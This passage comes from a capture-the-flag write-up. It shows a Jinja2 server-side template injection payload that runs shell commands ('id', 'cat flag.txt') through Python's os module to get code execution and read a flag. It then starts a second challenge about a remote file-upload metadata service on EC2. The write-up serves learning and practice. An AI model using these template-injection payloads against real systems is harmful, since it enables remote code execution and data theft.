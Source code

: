 ![](https://hackmd.io/_uploads/SJ0eFGqTn.png)

```
Payload: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Submitting that confirms RCE
![](https://hackmd.io/_uploads/Hy3QKG562.png)

From here I just checked what files are in the current directory
![](https://hackmd.io/_uploads/Sy6UKM56n.png)
![](https://hackmd.io/_uploads/SkPDYM9pn.png)

Cool the flag is there

So I just concatenate it
![](https://hackmd.io/_uploads/B1OiKfcpn.png)
![](https://hackmd.io/_uploads/HJ32tz9T3.png)

```
Payload: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```

And I got the flag

```
Flag: flag{smaller_than_medium_with_twice_the_bugs}
```

#### Incredibly Self-Referential 
![](https://hackmd.io/_uploads/rknbcM5Tn.png)

This challenge wasn't particularly hard but the slight hard thing there is to spot the response :slightly_smiling_face: 

Let's get to it :computer: 

On key note we should always take is the challenge description

It clearly states that it is running on a EC2 Web Service which of cause I didn't notice at first

Going over to the url shows this
![](https://hackmd.io/_uploads/H1VOqM5ph.png)


And again I didn't read this title this service offers I went on trying to upload various sort of files but after like 10 mins or so I read it and saw ohhh it allows upload of file and likely gives the metadata of the file uploaded

Two things to notice is that we can upload file remotely or just by uploading the file

The web server is `gunicorn` and python based from what wappalyser says
![](https://hackmd.io/_uploads/SJlcczqTh.png)

I tried to play with the remote file upload and got this
![](https://hackmd.io/_uploads/SkhTcGq63.png)
![](https://hackmd.io/_uploads/HJJ6qG5a2.png)
